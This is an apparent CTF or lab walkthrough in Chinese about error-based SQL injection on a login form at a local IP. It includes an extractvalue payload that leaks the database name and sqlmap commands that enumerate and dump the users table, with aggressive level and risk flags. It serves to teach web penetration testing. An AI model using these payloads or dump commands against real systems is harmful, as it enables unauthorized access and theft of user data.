

触发了报错界面



```
Invalid query: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' AND password=md5('') and is_admin=1' at line 1 Whole query: select * from users where username=''' AND password=md5('') and is_admin=1
```

报错界面的信息很多，告诉了我们整条查询语句，一次我们就可以构建payload。不过在这里我要说的另外一种方式是报错注入。

MySQL 内置的 XML 查询函数，本来用途是从 XML 字符串里提取节点值。  如果 xpath 路径非法呢？MySQL 抛出 XPATH 报错，**并把非法路径的值写进报错信息**。

POST参数：

```
password=&username=' and extractvalue(1, concat(0x7e, (SELECT database()), 0x7e)) -- -
```

报错回显：



下面在介绍一下，知道了是报错注入，如何用sqlmap一键梭哈。

> 补充：

curl的时候发现一个华点，开发者直接把sql查询命令以代码注释的方法打印在了页面上。



### Sqlmap的报错注入使用

POST请求不能直接输入url需要构造好请求，这里介绍两种方法。

#### 方法一：请求包文件

先在 Burp 里抓到登录的 POST 请求，右键 → Save item，存成 `login.txt`，内容长这样：

```
POST /login.php HTTP/1.1
Host: 192.168.200.129:8080
Content-Type: application/x-www-form-urlencoded

username=admin&password=123
```

然后直接：

```bash
sqlmap -r login.txt -p username --batch --dbs
```

`-p username` 指定测哪个参数，`--batch` 全程不问你，`--dbs` 枚举所有数据库。

---
#### 方法二：命令行指定

```bash
sqlmap -u "http://192.168.200.129:8080/login.php" \
        --data="username=admin&password=123" \
        -p username \
        --batch --dbs 
```

---
### 脱裤完整流程

```bash
# 1. 枚举所有数据库
sqlmap -r login.txt -p username --batch --dbs

# 2. 指定数据库，枚举表（把 website 换成你爆出来的库名）
sqlmap -r login.txt -p username --batch -D website --tables

# 3. 指定表，枚举列
sqlmap -r login.txt -p username --batch -D website -T users --columns

# 4. 导出数据
sqlmap -r login.txt -p username --batch -D website -T users --dump
```



---
### 高阶参数

```bash
--technique=E --dbms=mysql --threads=4 --level=5 --risk=3
```

|参数|作用|
|---|---|
|`--level=5 --risk=3`|加大测试力度，默认 level=1 可能漏掉某些注入点|
|`--technique=E`|只用报错注入（E=Error-based），不让它瞎试其他方式|
|`--dbms=mysql`|告诉它数据库类型，省去探测时间|
|`--threads=4`|多线程加速|
|`--proxy=http://127.0.0.1:8080`|流量过 Burp，方便观察 sqlmap 发了什么包|


